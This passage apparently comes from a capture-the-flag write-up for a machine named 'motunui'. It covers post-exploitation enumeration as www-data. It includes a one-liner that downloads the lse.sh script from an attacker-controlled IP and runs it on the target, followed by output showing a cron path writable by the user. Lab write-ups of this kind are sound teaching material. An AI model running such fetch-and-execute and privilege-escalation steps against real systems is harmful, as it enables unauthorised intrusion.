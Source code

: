 ```bash
www-data@motunui:/etc$ python3 -m http.server
```

```bash
:~/Motunui# curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100 48875  100 48875    0     0   215k      0 --:--:-- --:--:-- --:--:--  215k
```

```bash
www-data@motunui:~$ wget http://10.8.106.222/lse.sh && chmod +x lse.sh && ./lse.sh -i -l 1
```

<br>
<br>

<img width="1150" height="455" alt="image" src="https://github.com/user-attachments/assets/de88c9d6-b8ab-4f93-8e62-e7cde4136b49" />

```bash
[!] ret010 Cron tasks writable by user..................................... yes!
---
/var/spool/cron/crontabs
---
[*] ret020 Cron jobs....................................................... yes!
---
/etc/crontab:SHELL=/bin/sh
/etc/crontab:PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
/etc/crontab:17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
/etc/crontab:25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
/etc/crontab:47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
/etc/crontab:52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
/etc/crontab:*  *    * * *   www-data	/usr/bin/crontab /var/spool/cron/crontabs/www-data
/etc/cron.d/popularity-contest:SHELL=/bin/sh
/etc/cron.d/popularity-contest:PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
/etc/cron.d/popularity-contest:23 10 * * *   root    test -x /etc/cron.daily/popularity-contest && /etc/cron.daily/popularity-contest --crond
/etc/cron.d/certbot:SHELL=/bin/sh
/etc/cron.d/certbot:PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
/etc/cron.d/certbot:0 */12 * * * root test -x /usr/bin/certbot -a \! -d /run/systemd/system && perl -e 'sleep int(rand(43200))' && certbot -q renew
/etc/cron.d/php:09,39 *     * * *     root   [ -x /usr/lib/php/sessionclean ] && if [ ! -d /run/systemd/system ]; then /usr/lib/php/sessionclean; fi
/etc/cron.d/mdadm:57 0 * * 0 root if [ -x /usr/share/mdadm/checkarray ] && [ $(date +\%d) -le 7 ]; then /usr/share/mdadm/checkarray --cron --all --idle --quiet; fi
---
[*] ret030 Can we read user crontabs....................................... nope
[*] ret040 Can we list other user cron tasks?.............................. nope
[*] ret050 Can we write to any paths present in cron jobs.................. yes!
---
/var/cache/apache2/mod_cache_disk
/var/crash
/var/crash/.
/var/spool/cron/crontabs/www-data
```
